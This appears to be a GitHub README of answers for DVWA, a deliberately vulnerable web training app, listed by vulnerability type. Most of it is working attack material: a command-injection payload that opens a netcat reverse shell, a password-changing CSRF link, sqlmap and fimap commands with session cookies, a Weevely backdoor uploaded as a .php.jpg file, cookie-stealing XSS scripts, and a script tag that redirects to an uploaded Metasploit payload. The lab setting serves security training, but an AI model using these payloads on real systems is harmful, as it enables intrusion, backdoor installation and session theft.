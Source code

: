 # DVWA-Answers

### Command Execution:
Start a netcat listener on your machine: nc -lvp 4545
command to input: ping google.com & nc <ip of your machine> 4545 -v -e /bin/bash

### CSRF you can send this link to an admin user or xss it:
http://10.195.2.2/dvwa/vulnerabilities/csrf/?password_new=asd123&password_conf=asd123&Change=Change#

### File Inclusion:
fimap -u 'http://10.195.2.2/dvwa/vulnerabilities/fi/?page=include.php' --cookie='security=medium; PHPSESSID=43e836347ea74c7e3bc51f9a321bee24' -x

### SQLi + SQLi Blind:
Put a number in the user ID and capture it with burp, save the capture to a file then run this it shows the method used to extract info.
sqlmap -r /root/Desktop/dvwa -a
or
sqlmap -u 'http://10.195.2.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie='security=medium; PHPSESSID=43e836347ea74c7e3bc51f9a321bee24' -a

### Unrestricted File Upload:
Use Weevely to create a backdoor and rename it back.php.jpg then upload it and connect to it with Weevely.  If it doesn't tell you where it uploads use Burpsuite to spider the site.

### XSS reflected (low):
<script>alert("TesT")</script>
<script>alert(document.cookie)</script>

### XSS stored (low):
<script>alert("TesT")</script>
<script>alert(document.cookie)</script>
http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson9/
You can upload a metasploit php payload and put it in <script>window.location="http://192.168.1.106/dvwa/hackable/uploads/FORUM_BUG.php" </script> and set up a listener





